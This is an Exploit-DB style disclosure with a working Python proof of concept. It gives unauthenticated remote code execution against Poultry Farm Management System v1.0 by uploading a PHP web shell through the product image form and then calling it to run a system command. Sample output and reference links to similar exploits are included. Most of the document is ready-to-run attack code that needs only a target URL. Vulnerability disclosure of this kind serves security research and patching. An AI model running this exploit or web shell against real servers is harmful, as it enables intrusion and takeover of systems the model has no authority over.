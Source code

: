 # Exploit Title: Unauthenticated Remote Code Execution (RCE) - Poultry Farm Management System v1.0
# Date: 24-06-2024
# CVE: N/A (Awaiting ID to be assigned) 
# EDB-ID: [52053](https://www.exploit-db.com/exploits/52053)
# Exploit Author: Jerry Thomas (w3bn00b3r)
# Vendor Homepage: https://www.sourcecodester.com/php/15230/poultry-farm-management-system-free-download.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/Redcock-Farm.zip
# Category: Web Application
# Version: 1.0
# Tested on: Windows 10 | Xampp v3.3.0
# Vulnerable endpoint: http://localhost/farm/product.php

# Exploit Code:

```
import requests
from colorama import Fore, Style, init

# Initialize colorama
init(autoreset=True)

def upload_backdoor(target):
    upload_url = f"{target}/farm/product.php"
    shell_url = f"{target}/farm/assets/img/productimages/web-backdoor.php"

    # Prepare the payload
    payload = {
        'category': 'CHICKEN',
        'product': 'rce',
        'price': '100',
        'save': ''
    }

    # PHP code to be uploaded
    command = "hostname"
    data = f"<?php system('{command}');?>" 

    # Prepare the file data
    files = {
        'productimage': ('web-backdoor.php', data, 'application/x-php')
    }

    try:
        print("Sending POST request to:", upload_url)
        response = requests.post(upload_url, files=files, data=payload, verify=False)

        if response.status_code == 200:
            print("\nResponse status code:", response.status_code)
            print(f"Shell has been uploaded successfully: {shell_url}")

            # Make a GET request to the shell URL to execute the command
            shell_response = requests.get(shell_url, verify=False)
            print("Command output:", Fore.GREEN + shell_response.text.strip())
        else:
            print(f"Failed to upload shell. Status code: {response.status_code}")
            print("Response content:", response.text)
    except requests.RequestException as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    target = "http://localhost"  # Change this to your target
    upload_backdoor(target)

```

# Video Poc
```
Link - https://drive.google.com/file/d/1gOXhAjtUuIJHGz5SEpz3Tu50CEzoiDw_/view?usp=drive_link
```

# Output
> Execute - python3 exploit.py or python exploit.py
```
Sending POST request to: http://localhost/farm/product.php
Response status code: 200
Shell has been uploaded successfully: http://localhost/farm/assets/img/productimages/web-backdoor.php
Command output: DESKTOP-EGV8AH5
```

# References 
> To develop exploit code:
- https://github.com/0xConstant/Gym-Management-1.0-unauthenticated-RCE/blob/main/exploit.py
- https://github.com/h3x0crypt/PHPUnit-RCE/blob/master/PHPunit-RCE.php 
